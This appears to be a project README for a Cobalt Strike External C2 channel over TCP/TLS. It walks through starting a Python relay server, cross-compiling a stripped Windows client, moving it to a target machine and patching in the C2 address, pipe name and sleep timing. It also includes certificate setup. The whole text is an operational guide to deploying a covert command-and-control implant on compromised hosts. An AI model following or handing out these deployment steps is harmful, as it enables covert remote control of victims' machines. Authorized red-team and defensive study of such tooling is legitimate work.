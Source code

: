 # COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

Requirements: Python3 (developed on 3.9.2) and wolfssl

> pip3 install wolfssl

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename] [Cert] [Key] [OPTIONAL:-tp TeamserverPort -a Arch -r Restart]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any opsec appropriate pipe name approved for ops.
- [Cert] is the path to the servers certificate in PEM format.
- [Key] is the path to the servers key in PEM format.
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.
- [Arch] is the architecture to request from the teamserver for the beacon. It defaults to x86 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N and is an optional argument.

Install MinGW

>sudo apt install mingw-w64

Install WolfSSL (need autoconf, automake, and libtool installed)

>git clone https://github.com/wolfSSL/wolfssl.git
>cd wolfssl
>./autogen.sh
>sudo ./configure CFLAGS="-DWIN64 -DMINGW -DWC_NO_HARDEN" --host=x86_64 CC=x86_64-w64-mingw32-gcc LD=x86_64-w64-mingw32-ld LIBS="-lws2_32 -L/usr/x86_64-w64-mingw32/lib" --prefix=/usr/x86_64-w64-mingw32 --enable-debug --enable-rsa --enable-aes --enable-static --disable-shared --disable-harden --disable-examples --disable-crypttests
>sudo make
>sudo make check
>sudo make install

Once you have the MinGW compiler installed, you may compile the client C code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32 -static -lwsock32 -lwolfssl

or 64-bit with:

>x86_64-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32 -static -lwsock32 -lwolfssl

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments.

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout] -f [CA Cert]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server. It hits this sleep when the beacon indicates it has nothing left to send back to the server and is just checking in.
- [Timeout] is the send/recv socket timeout option (in seconds) set by setsockopt(). May remove in future.
- [CA Cert] is the CA Cert created when creating the server cert and key. It is copy and pasted in with quotes around it, not a file path.

## CONSTRAINTS AND NOTES

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- The client keeps one long TCP/TLS connection open.
- Create certs. Server gets server-cert.pem and server-key.pem. Client gets ca-cert.pem

>openssl genrsa 2048 > ca-key.pem
>openssl req -new -x509 -nodes -days 365000 -key ca-key.pem -out ca-cert.pem
>openssl req -newkey rsa:2048 -nodes -days 365000 -keyout server-key.pem -out server-req.pem
>openssl x509 -req -days 365000 -set_serial 01 -in server-req.pem -out server-cert.pem -CA ca-cert.pem -CAkey ca-key.pem

## TODOS/IMPROVEMENTS

- Handle multiple clients on one server.
- Add jitter to sleep
- Add retry to TCP
